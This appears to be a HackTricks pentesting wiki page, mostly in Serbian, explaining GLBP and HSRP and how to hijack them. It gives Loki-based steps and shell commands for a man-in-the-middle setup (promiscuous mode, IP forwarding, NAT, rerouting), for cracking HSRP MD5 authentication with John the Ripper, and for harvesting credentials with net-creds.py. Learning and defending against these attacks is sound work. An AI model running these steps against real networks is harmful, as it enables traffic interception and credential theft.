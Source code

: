 # GLBP & HSRP Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## FHRP Hijacking Overview

### Insights into FHRP
FHRP je dizajniran da obezbedi robusnost mreže spajanjem više rutera u jednu virtuelnu jedinicu, čime se poboljšava raspodela opterećenja i otpornost na greške. Cisco Systems je uveo istaknute protokole u ovom skupu, kao što su GLBP i HSRP.

### GLBP Protocol Insights
Cisco-ova kreacija, GLBP, funkcioniše na TCP/IP steku, koristeći UDP na portu 3222 za komunikaciju. Ruteri u GLBP grupi razmenjuju "hello" pakete na svakih 3 sekunde. Ako ruter ne pošalje ove pakete tokom 10 sekundi, smatra se da je van mreže. Međutim, ovi tajmeri nisu fiksni i mogu se modifikovati.

### GLBP Operations and Load Distribution
GLBP se izdvaja omogućavajući raspodelu opterećenja među ruterima koristeći jednu virtuelnu IP adresu u kombinaciji sa više virtuelnih MAC adresa. U GLBP grupi, svaki ruter učestvuje u prosleđivanju paketa. Za razliku od HSRP/VRRP, GLBP nudi pravu ravnotežu opterećenja kroz nekoliko mehanizama:

- **Host-Dependent Load Balancing:** Održava doslednu AVF MAC adresu dodeljenu hostu, što je bitno za stabilne NAT konfiguracije.
- **Round-Robin Load Balancing:** Podrazumevani pristup, naizmenično dodeljujući AVF MAC adrese među zahtevima hostova.
- **Weighted Round-Robin Load Balancing:** Raspodeljuje opterećenje na osnovu unapred definisanih "Weight" metrika.

### Key Components and Terminologies in GLBP
- **AVG (Active Virtual Gateway):** Glavni ruter, odgovoran za dodeljivanje MAC adresa peer ruterima.
- **AVF (Active Virtual Forwarder):** Ruter zadužen za upravljanje mrežnim saobraćajem.
- **GLBP Priority:** Metrika koja određuje AVG, počinje od podrazumevanog nivoa 100 i kreće se između 1 i 255.
- **GLBP Weight:** Odražava trenutno opterećenje na ruteru, može se prilagoditi ručno ili putem Object Tracking-a.
- **GLBP Virtual IP Address:** Služi kao podrazumevani prolaz mreže za sve povezane uređaje.

Za interakcije, GLBP koristi rezervisanu multicast adresu 224.0.0.102 i UDP port 3222. Ruteri šalju "hello" pakete na svakih 3 sekunde i smatraju se neoperativnim ako se paket propusti tokom 10 sekundi.

### GLBP Attack Mechanism
Napadač može postati glavni ruter slanjem GLBP paketa sa najvišom prioritetnom vrednošću (255). To može dovesti do DoS ili MITM napada, omogućavajući presretanje ili preusmeravanje saobraćaja.

### Executing a GLBP Attack with Loki
[Loki](https://github.com/raizo62/loki_on_kali) može izvesti GLBP napad injektovanjem paketa sa prioritetom i težinom postavljenim na 255. Pre napada, koraci uključuju prikupljanje informacija kao što su virtuelna IP adresa, prisustvo autentifikacije i prioritetne vrednosti rutera koristeći alate kao što je Wireshark.

Attack Steps:
1. Prebacite se u promiscuous mode i omogućite IP prosleđivanje.
2. Identifikujte ciljni ruter i preuzmite njegovu IP adresu.
3. Generišite Gratuitous ARP.
4. Injektujte zlonamerni GLBP paket, pretvarajući se da ste AVG.
5. Dodelite sekundarnu IP adresu mrežnom interfejsu napadača, odražavajući GLBP virtuelnu IP.
6. Implementirajte SNAT za potpunu vidljivost saobraćaja.
7. Prilagodite rutiranje kako biste osigurali nastavak pristupa internetu kroz originalni AVG ruter.

Prateći ove korake, napadač se pozicionira kao "čovek u sredini", sposoban da presreće i analizira mrežni saobraćaj, uključujući nešifrovane ili osetljive podatke.

Za demonstraciju, evo potrebnih komandi:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
Monitoring and intercepting traffic can be done using net-creds.py or similar tools to capture and analyze data flowing through the compromised network.

### Passive Explanation of HSRP Hijacking with Command Details

#### Overview of HSRP (Hot Standby Router/Redundancy Protocol)
HSRP je Cisco-ov proprietarni protokol dizajniran za redundanciju mrežnih prolaza. Omogućava konfiguraciju više fizičkih rutera u jednu logičku jedinicu sa zajedničkom IP adresom. Ova logička jedinica se upravlja od strane primarnog rutera koji je odgovoran za usmeravanje saobraćaja. Za razliku od GLBP, koji koristi metrike poput prioriteta i težine za balansiranje opterećenja, HSRP se oslanja na jedan aktivni ruter za upravljanje saobraćajem.

#### Roles and Terminology in HSRP
- **HSRP Active Router**: Uređaj koji deluje kao prolaz, upravljajući protokom saobraćaja.
- **HSRP Standby Router**: Rezervni ruter, spreman da preuzme ako aktivni ruter otkaže.
- **HSRP Group**: Skup rutera koji sarađuju kako bi formirali jedan otporniji virtuelni ruter.
- **HSRP MAC Address**: Virtuelna MAC adresa dodeljena logičkom ruteru u HSRP postavci.
- **HSRP Virtual IP Address**: Virtuelna IP adresa HSRP grupe, koja deluje kao podrazumevani prolaz za povezane uređaje.

#### HSRP Versions
HSRP dolazi u dve verzije, HSRPv1 i HSRPv2, koje se razlikuju uglavnom u kapacitetu grupe, korišćenju multicast IP adresa i strukturi virtuelne MAC adrese. Protokol koristi specifične multicast IP adrese za razmenu informacija o usluzi, sa Hello paketima koji se šalju svake 3 sekunde. Ruter se smatra neaktivnim ako ne primi paket u intervalu od 10 sekundi.

#### HSRP Attack Mechanism
HSRP napadi uključuju prisilno preuzimanje uloge Aktivnog Rutera injektovanjem maksimalne vrednosti prioriteta. Ovo može dovesti do napada Man-In-The-Middle (MITM). Osnovni koraci pre napada uključuju prikupljanje podataka o HSRP postavci, što se može uraditi korišćenjem Wireshark-a za analizu saobraćaja.

#### Steps for Bypassing HSRP Authentication
1. Sačuvajte mrežni saobraćaj koji sadrži HSRP podatke kao .pcap datoteku.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Izvucite MD5 heš vrednosti iz .pcap datoteke koristeći hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Razbijte MD5 heš vrednosti koristeći John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Executing HSRP Injection with Loki**

1. Pokrenite Loki da identifikujete HSRP oglase.
2. Postavite mrežni interfejs u promiscuous mode i omogućite IP prosleđivanje.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Koristite Loki da ciljate specifični ruter, unesite razbijenu HSRP lozinku i izvršite potrebne konfiguracije da se pretvarate da ste Aktivni Ruter.
4. Nakon što preuzmete ulogu Aktivnog Rutera, konfigurišite svoj mrežni interfejs i IP tabele da presretnete legitimni saobraćaj.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Izmenite tabelu rutiranja da usmerite saobraćaj kroz bivšeg Aktivnog Rutera.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Koristite net-creds.py ili sličan alat za prikupljanje kredencijala iz presretnutog saobraćaja.
```shell
sudo python2 net-creds.py -i eth0
```

Izvršavanje ovih koraka stavlja napadača u poziciju da presreće i manipuliše saobraćajem, slično postupku za GLBP otmicu. Ovo naglašava ranjivost u protokolima redundancije poput HSRP i potrebu za robusnim bezbednosnim merama.


## References
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
